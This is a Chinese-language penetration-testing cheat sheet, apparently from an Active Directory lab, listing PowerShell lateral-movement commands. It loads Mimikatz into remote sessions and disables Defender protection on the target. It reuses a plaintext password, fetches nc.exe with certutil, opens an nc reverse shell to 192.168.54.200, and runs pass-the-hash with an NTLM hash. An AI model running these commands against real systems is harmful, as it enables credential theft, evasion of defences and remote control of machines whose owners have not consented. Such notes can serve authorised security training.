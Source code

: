 在指定session里载入Mimikatz
```
Invoke-Command -FilePath C:\AD\Invoke-Mimikatz.ps1 -Session $sess
```

指定目标靶机的session，在目标靶机关闭杀软（效果跟bypass AMSI大同小异，不过因为我们是目标靶机上的管理员，因此可以直接关闭）
```
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
```

指定目标靶机的session，在目标靶机执行Mimikatz
```
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```


## 以某个用户的身份登录到某台电脑（需要明文密码）
```
Enter-PSSession –Computername dcorp-dc –credential dcorp\Administrator
```

## 下面方法适用于得到了用户明文密码,但不是在RDP环境中（比如反弹shell中），使用这个用户身份执行命令

处理密码
```
$pw = ConvertTo-SecureString "96dQ(8i498g32N" -AsPlainText -Force
```
处理用户凭据
```
$creds = New-Object System.Management.Automation.PSCredential ("Administrator", $pw)
```
测试执行whoami命令
```
Invoke-Command -Computer hutchdc -ScriptBlock {whoami} -Credential $creds
```
如：
```
PS C:\windows\system32\inetsrv> Invoke-Command -Computer hutchdc -ScriptBlock { whoami} -Credential $creds
Invoke-Command -Computer hutchdc -ScriptBlock { whoami} -Credential $creds
hutch\administrator
```
表明用户身份是```hutch\administrator```

把nc.exe传到靶机
```
certutil -urlcache -split -f "http://192.168.54.200/nc.exe" nc.exe
```
用nc反弹一个shell回来
```
Invoke-Command -Computer hutchdc -ScriptBlock {C:\windows\temp\nc.exe 192.168.54.200 593 -e cmd.exe} -Credential $creds
```

## pth
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:af0686cc0ca8f04df42210c9ac980760 /run:powershell.exe"'
```
